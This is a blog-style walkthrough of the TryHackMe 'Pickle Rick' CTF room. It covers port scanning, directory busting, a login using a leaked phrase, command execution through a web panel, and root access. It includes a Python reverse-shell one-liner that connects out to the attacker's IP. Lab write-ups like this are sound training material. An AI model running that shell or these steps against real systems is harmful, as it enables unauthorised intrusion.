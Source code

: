 ```yaml
---
title: TryHackMe - Pickle Rick CTF
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
date: '2021-10-27'
thumb_img_path: /images/o9pyhyU.jpg
thumb_img_alt: Icelandic horses
content_img_path: /images/Banner.png
content_img_alt: Icelandic horses
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
---
```

TryHackMe - Pickle Rick CTF: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerickTryHackMe)

This box is listed as Easy .  All three ingredients can be discovered easily from your browser and without using any tools, but for this walkthrough I will be using:

`NMAP DIRBUSTER NETCAT`

I will try to provide alternative guidance where applicable.

# ENUMERATION

First, let's start by pinging the machine and making sure we're able to connect.

![](/images/ping.png)

Everything looks good, so let's try to see which ports we have available.  I'll be using NMAP to perform this scan:

`sudo nmap -sN -Pn 10.10.19.153

\-sN -- TCP Null scan

\-Pn -- Treats all hosts as online / skip host discovery`

![](/images/nmap.png)

We can see we have port 22 and port 80 open.  Let's curl the IP and see what we get back.

![](/images/a_curl_port\_80.png)

Nothing really stands out at first.  We can see we have a /assets/ directory we may be able to use later.  If we scroll down, however, we see a comment left by Rick, which gives us the Username.  We'll note this username, and be on the lookout for a login page.

Alternatively, we can navigate to \[TARGET_IP]:80, and inspect source there to get the same:

![](/images/a_inspect_source.png)

Before we jump to directory hunting, let's check for a robots.txt to get any more intel:

![](/images/a_curl_robots.png)

Curl returns a seemingly nonsense phrase that will be important later, and I have purposely blurred.  For now, we do not know its significance though.

Let's do some directory busting.  I'll be using DirBuster, and I'll be using a small wordlist that comes pre-installed in Parrot and Kali.  I'll input the target IP, as well as the file path to my list:

![](/images/dirbuster.png)

After letting the scan run for a few moments, we have some interesting results:

![](/images/a_dirbuster_return.png)

We can see both a /login.php and  a /portal.php which are interesting.  Let's navigate to the login page.

# FOOTHOLD

![](/images/login.png)

We know the Username from our notes of the HTML comment on the home page, but we don't know the password.  A quick trial of usual passwords doesn't work.  We can try a sniper attack in BurpSuite, but what about the text in /robots.txt?  Let's try that.

![](/images/command.png)

Awesome, that worked, and now we're in.  Let's check the page source for any hidden comments or bread crumbs:

![](/images/a_portal_source.png)

Nothing seems to stand out aside from the comment which appears to be Base64 encoded.  Let's make note of that and go back to /portal.php.  Let's try out a few commands we know, and see if that gets us anywhere.

![](/images/whoami.png)![](/images/ls.png)

After some trial and error, we can see that we're seemingly giving commands to a Linux machine.  We can see a 'clue.txt' and 'Sup3rS3cretPickl3Ingred.txt' in our current directory, so let's try to cat the ingredient.

![](/images/cat.png)

Ok.  That didn't work, but we have more options.  Let's wget the files and have them locally if we need them later.![](/images/wget.png)

From here, we can cat the files and see what they contain:

![](/images/a_first_ingred.png)

Awesome, we have the first ingredient as well as a hint for how to find the rest.

Alternatively, we would have been able to 'less' the .txt files and gotten their contents in the browser:

![](/images/a_less_first.png)![](/images/less_clue.png)

# REVERSE SHELL

At this point, we can continue to issue commands to the web browser panel.  However, for practice and ease of use, I chose to implement a reverse shell.  I started netcat on my machine, and listened on port 4444 (an arbitrary port).  I then issued the command

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\[YOUR IP]",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'`

on the control panel, and was able to spawn the reverse shell:

![](/images/a_shell_open.png)

Now we can explore the machine and look for our next ingredient:

![](/images/a_shell_second.png)

# PRIVILEGE ESCALATION

Awesome.  That's the second ingredient, and we only have one left.  Unfortunately, the last one needs root access, so let's practice our privilege escalation.  I'll use another python script to sudo bash:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now we can cd to /root, and get into the third ingredient:

![](/images/a_shell_last.png)

That's it! We got all three ingredients.  Enter them for your points, and I'll see you in the next room.
